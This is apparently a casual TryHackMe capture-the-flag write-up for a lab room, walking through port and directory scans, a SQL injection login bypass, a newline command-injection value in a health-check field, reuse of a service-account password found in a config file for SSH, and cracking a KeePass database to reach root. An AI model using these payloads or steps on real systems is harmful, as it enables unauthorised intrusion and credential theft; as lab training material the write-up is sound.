# Silent Monitor — TryHackMe Writeup | fahisxd

> Room: https://tryhackme.com/room/silent-monitor
>
> Don’t mind my English, this is purely from me



Target machine booted...

Attack box booted...

VPN connected...

## Recon

lets scan the target with Nmap

```bash
$ sudo nmap -sC -sV -p- -Pn 10.48.145.53
Starting Nmap 7.95 ( https://nmap.org ) at 2026-08-23 05:54 EDT
Nmap scan report for 10.48.145.53
Host is up (0.079s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 0f:2b:c5:ac:f1:ea:ed:67:29:35:1b:65:e8:c6:af:38 (ECDSA)
|_  256 e5:b9:3b:37:b7:56:71:86:30:0a:d0:a0:57:67:f7:80 (ED25519)
5050/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.10.12)
|_http-title: CorpNet — Network Operations Centre
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 68.73 seconds
```

only two ports open: **22 (SSH)** and **5050 (HTTP)**

the web looked like some kinda internal company dashboard, but there was nothing juicy on the surface so i ran a dir scan



```bash
$ gobuster dir -u http://10.48.145.53:5050 -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.48.145.53:5050
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/internal             (Status: 200) [Size: 8770]
Progress: 13097 / 20481 (63.95%)
```

LESSGOOO

while it keeps scanning, let’s take a look at the login page



okk its a login page



it gave the error *“Invalid username or password.”* on invalid password or username

we’ll use hydra for credential enumeration

> *Note from future self: this wasn’t needed. It was a mistake.*

while it’s scanning, let’s try something else...

```text
username = admin' OR 1=1--
```

lessgooo!!!

so yeah... SQLi worked and we got in



## Health page

the `/internal/health` page looks delulu

and from one of the logs we found this



```text
2026-05-19 03:16:04    netops    HEALTH_CHECK    127.0.0.1%0awhoami
```

lets try different methods...

weirdly, this didn’t work directly from the web page, so i sent the request through Burp. not sure why yet, but it worked there.



```text
$ ping -c 2 -W 1 127.0.0.1 -V
ping from iputils 20211215
```

TvT

with `ls` we found some python files and a `secret.config` file



`app.py` is just the backend, nothing interesting. the file that lures me in is `secret.config`, so lets check that out



```ini
# netops application config
# generated: 2026-01-03

[database]
path    = /opt/netops/netops.db
timeout = 5

[app]
host     = 0.0.0.0
port     = 5050
log_path = /var/log/netops/app.log

[auth]
session_lifetime = 1800

# service account used by the backup agent
# TODO: migrate to secrets manager before Q2 audit
[backup_agent]
run_as   = sysadmin
password = [REDACTED]

[smtp]
host = 127.0.0.1
port = 25
from = noc-alerts@corp.internal
```

we got some **credentials**, let’s try them out

its not for website, it might be ssh...

```bash
$ ssh sysadmin@10.48.145.53
The authenticity of host '10.48.145.53 (10.48.145.53)' can't be established.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.48.145.53' (ED25519) to the list of known hosts.
sysadmin@10.48.145.53's password:
sysadmin@tryhackme-2204:~$
```

**bingo!! yep, they were SSH credentials**


## Privilege Escalation

now privesc

```bash
sysadmin@tryhackme-2204:~$ sudo -l
[sudo] password for sysadmin:
Sorry, user sysadmin may not run sudo on tryhackme-2204.
```

okk...

```bash
sysadmin@tryhackme-2204:~$ ls
backups  user.txt
```

lets see whats in `backups`

```bash
sysadmin@tryhackme-2204:~/backups$ ls
README.txt  infrastructure.kdbx
```

lesssgooooo

we gonna use `keepass4crack.py`

> *tool: [keepass4crack](https://github.com/unix-ninja/keepass4crack) | credit: unix-ninja*

# PASSWORD FOUND!!!



and the **root flag** was right there in `/root/root.txt`


